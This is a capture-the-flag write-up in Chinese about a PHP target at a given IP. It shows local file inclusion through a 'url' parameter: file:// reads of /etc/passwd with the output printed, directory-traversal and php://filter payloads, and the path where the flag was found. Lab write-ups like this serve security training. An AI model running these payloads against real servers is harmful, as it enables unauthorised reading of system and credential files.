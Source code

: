 靶机网址是

```
http://159.75.236.232:8087/index.php?url=http://www.baidu.com    （是本地文件包含漏洞（LFI）的特征）
```



得到

```
Web 服务器  Apache HTTP Server 2.4.25
编程语言 PHP  5.6.40
操作系统 Debian  
搜索引擎 Baidu Search Box
```

打开f12提示

```
<!-- 偷偷告诉你,flag在根目录下的flag.txt中 
```

访问下文得到

```
http://159.75.236.232:8087/index.php?url=file:///etc/passwd
```

```
root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin _apt:x:100:65534::/nonexistent:/bin/false
```

成功访问到passwd，证明LFI是可用的

```
http://159.75.236.232:8087/index.php?url=file:///../../../../flag.txt
http://159.75.236.232:8087/index.php?url=file:///../../flag.txt
http://159.75.236.232:8087/index.php?url=file:///var/www/flag.txt
http://159.75.236.232:8087/index.php?url=file:///root/flag.txt
http://159.75.236.232:8087/index.php?url=file:///flag.txt
http://159.75.236.232:8087/index.php?url=php://filter/convert.base64-encode/resource=flag.txt
访问全是空白界面
```

根目录下找不到flag.txt,提示是假的，尝试加一层目录进行爆破

```
最终在：   http://159.75.236.232:8087/index.php?url=file:///flag/flag.txt
```
